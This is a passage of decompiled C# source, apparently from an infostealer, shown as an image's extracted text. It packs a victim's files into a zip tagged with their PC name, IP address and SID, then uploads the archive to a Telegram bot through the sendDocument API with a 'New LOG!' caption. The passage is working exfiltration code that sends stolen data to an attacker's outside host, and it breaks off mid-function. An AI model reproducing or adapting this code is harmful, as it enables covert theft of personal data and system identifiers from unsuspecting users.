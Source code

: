 ```csharp
					array[0] = "\n<========================================>\nPC:";
					array[1] = Variables.username;
					array[2] = "\nIP: ";
					int num = 3;
					IPAddress ip = Variables.IP;
					array[num] = ((ip != null) ? ip.ToString() : null);
					array[4] = "\nSID: ";
					array[5] = Variables.SID;
					zipFile2.Comment = string.Concat(array);
					zipFile.AddDirectory(Variables.temp + Variables.username);
					zipFile.Save(Variables.temp + Variables.username + "@ardent.zip");
					Variables.isZipCompressionSuccess = "Success!";
				}
			}
			catch (Exception ex)
			{
				Variables.isZipCompressionSuccess = ex.Message;
				Console.WriteLine(ex.Message);
			}
		}

		// Token: 0x06000005 RID: 5 RVA: 0x00002274 File Offset: 0x00000474
		public static void UploadMultipart(byte[] file, string filename, string contentType, string url)
		{
			try
			{
				WebClient webClient = new WebClient();
				string text = "------------------------" + DateTime.Now.Ticks.ToString("x");
				webClient.Headers.Add("Content-Type", "multipart/form-data; boundary=" + text);
				string @string = webClient.Encoding.GetString(file);
				string text2 = string.Format("--{0}\r\nContent-Disposition: form-data; name=\"document\"; filename=\"{1}\"\r\nContent-Type: {2}\r\n\r\n{3}\r\n--{0}--\r\n", new object[] { text, filename, contentType, @string });
				byte[] bytes = webClient.Encoding.GetBytes(text2);
				webClient.UploadData(url, "POST", bytes);
			}
			catch (Exception ex)
			{
				Console.WriteLine(ex.Message);
			}
		}

		// Token: 0x06000006 RID: 6 RVA: 0x00002340 File Offset: 0x00000540
		public static void Dispatch(string ID)
		{
			string text = Variables.temp + Variables.username + "@ardent.zip";
			bool flag = !File.Exists(text);
			if (!flag)
			{
				byte[] array = File.ReadAllBytes(text);
				string[] array2 = new string[5];
				array2[0] = "https://api.telegram.org/bot";
				array2[1] = Variables.Token;
				array2[2] = "/sendDocument?chat_id=";
				array2[3] = ID;
				int num = 4;
				string[] array3 = new string[37];
				array3[0] = "&caption=❗\ufe0f New LOG! <3\n\n\ud83d\udd3a PC: ";
				array3[1] = Variables.username;
				array3[2] = "\n\ud83d\udd3a IP: ";
				int num2 = 3;
				IPAddress ip = Variables.IP;
```